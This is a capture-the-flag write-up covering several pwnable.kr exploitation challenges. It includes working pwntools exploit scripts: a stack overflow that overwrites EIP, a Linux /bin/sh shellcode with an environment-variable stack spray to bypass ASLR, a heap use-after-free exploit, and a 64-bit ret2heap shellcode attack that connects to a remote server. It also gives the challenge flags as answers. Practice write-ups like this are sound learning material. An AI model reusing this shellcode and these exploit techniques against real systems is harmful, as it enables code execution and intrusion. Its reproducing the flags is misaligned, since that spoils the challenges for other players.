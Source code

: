 #### Simple login

```python
from pwn import *
import base64
payload = pack(0xdeadbeef)+pack(0x804925f)+pack(0x811eb40)
print  base64.encodestring(payload)
```

There was a memcpy in auth()  which lead to overflow of ebp , then eip = *(ebp+4) now we place &correct() in our payload which is 
stored in global variable 

##### flag :control EBP, control ESP, control EIP, control the world~

#### OTP 

this had no vuln i know , but apparently u have to use ulimit -f 0 so the passcode file is not created and we can enter '' password
but i still wonder why we have to use subprocces.Popen(['otp',''],stderr=stdout)

#### Tiny Easy

this prog just executed our argv[0] and it had aslr ON , using execv we can give argv[0] whatever we want , and to bypass aslr
we <b> spray the stack with environment variable </b>

```python
import os
import struct

shellcode="\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
nopsled = "\x90"*4096;  
payload = nopsled+shellcode

myenv = {}  
for i in range(0,100):  
	myenv["spray"+str(i)] = payload

#envaddr = pack(0xffff3ead)
envaddr = struct.pack("<I",0xff8402c7)

while True:
	print "trying ...."
	p = subprocess.Popen([envaddr], executable="./tiny_easy", env=myenv)
	p.wait()
````
##### flag: What a tiny task :) good job!

#### Fsb 
it was a format string bug , and program asks u to guess a key(random val) ,there are 3 ways to solve problem : <br> 
    1) Leak key ( i did ,but problem is stroull is treadted as int if <stdlib.h> is not included ) <br>
    2) Overwrite key ( it takes a lot of time to print , u had to redirect to > /dev/null ) <br>
    3) Change the control flow ( which i have to try ) <br>
    
##### flag :Have you ever saw an example of utilizing [n] format character?? :(    
    
#### Dragon 
This problem was good , it took me 1 day to complete , u have to fight with dragon and if u win u get UAF to exploit , 
the dragon's power is 2 bytes stored in heap all u have to do is increment it;s power to 128 which is will overflow to 0 
and then exploit the bug to get the flag 
```python
from pwn import * 

#p = process('./dragon')

p = remote('pwnable.kr' ,9004)


p.recvlines(4)
p.sendline('2')
print "[+] playing with baby dragon"
p.recvlines(7)
p.sendline('2')
p.recvlines(9)
p.sendline('1')
print "[+] playing with mama dragon"
p.recvlines(9)
for i in range(3):
        print "[+] Activating Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using clarity"
	p.sendline('2')
	p.recvlines(11)


print "[+] Activating Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using clarity"
p.sendline('2')
p.recvuntil(':')

print "[+] Dragon killed !! , we Won !!"
p.sendline(pack(0x08048dbf))
p.interactive()

```
###### flag : MaMa, Gandhi was right! :)

#### fix 

The problem simply executes a shellcode , but asks us fix one byte the problem is stack space is so less so at some stage 
it eats our shellcode too , so to solve this there are 2 ways  <br> <br>
		1) issue ulimit -s unlimited ;patch 15'th byte to pop esp , then esp value will be "/bin/sh" but still will be
		   valid due to ulimit <br> <br>
		2) pathch 15'th byte to leave ; but now ecx+4 (argv[1]) will be some bytes so sh interprets as file to execute so create a symbolic link of that bytes to a.sh file 
		
##### flag : Sorry for blaming shell-strom.org :) it was my ignorance!


#### echo1
This one was 64 bit binary with lot of fake vulnerablity  to trick us ,there was not enough gadget to play with ... so u make one ,but all u had to do is prepare a 4 byt shellcode (to make rdi pointing to heap) which is stored at .bss section , and leak heap addr and ret2heap && voila the shell !!!!

```python
from pwn import * 
context.bits = 64
puts = 0x400630
o= 0x602098
id_ = 0x6020a0
echo1=0x400818
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
#p = process('./echo1')
p = remote('pwnable.kr',9010)
p.recvuntil(':')
payload = "\x5F\xC3"+"A"*10
p.sendline(payload)
p.recvuntil('>')
p.sendline('1')
p.recvline()
payload = "A"*40+pack(id_)+pack(o)+pack(puts)+pack(echo1)
p.sendline(payload)
s= p.recvlines(3)
context.bits = len(s[2])*8
heap_leak = unpack(s[2])
shellcode_addr = heap_leak+48
print "[+] Heap leak: "+hex(heap_leak)
p.recvline()
context.bits = 64
payload = "\x90"*(40-len(shellcode))+shellcode+pack(shellcode_addr)
p.sendline(payload)
p.recvlines(2)
p.interactive()
```

##### flag : H4d_som3_fun_w1th_ech0_ov3rfl0w
		








